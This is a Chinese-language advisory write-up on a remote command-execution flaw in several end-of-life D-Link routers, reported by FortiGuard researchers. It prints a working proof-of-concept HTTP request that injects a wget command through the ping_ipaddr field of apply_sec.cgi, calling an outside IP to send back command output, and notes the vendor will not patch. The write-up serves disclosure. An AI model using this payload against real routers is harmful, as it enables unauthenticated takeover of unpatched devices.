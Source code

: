 ## D-Link路由器曝出RCE漏洞，牵涉多个型号  

### 简介

> Fortinet旗下FortiGuard实验室的研究人员披露了D-Link路由器上的一个远程命令执行漏洞，牵涉多个型号  

### 相关文章

> https://www.fortinet.com/blog/threat-research/d-link-routers-found-vulnerable-rce.html  
> https://nosec.org/home/detail/3020.html  

### 根据作者披露的受影响型号为：

- DIR-655
- DIR-866L
- DIR-652
- DHP-1565

## POC 如下

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1
html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)
```

> “该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。” 
>
> ![](img/46.jpeg)
>
> **专家们发现，由于糟糕的身份权限检查，即使无用户权限，也可以远程执行命令。**

> 研究人员在9月22日向D-Link报告了漏洞，而厂商在两天后承认漏洞存在，并在三天后确认不会发布相关补丁，因为这些产品都已经到了生命周期的终点。

